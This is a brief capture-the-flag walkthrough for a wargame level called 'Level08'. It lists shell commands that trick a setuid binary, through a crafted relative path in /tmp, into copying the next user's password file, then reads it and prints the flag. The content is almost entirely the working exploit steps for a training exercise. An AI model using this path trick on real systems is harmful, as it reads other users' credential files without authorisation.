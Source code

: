 ## Level08
## Commands
	cd /tmp
	mkdir backups
  touch backups/.log
	chmod 777 backups/.log
	mkdir -p home/users/level09
  /home/users/level08/level08 ../home/users/level09/.pass
	cat home/users/level09/.pass
## Flag
	fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S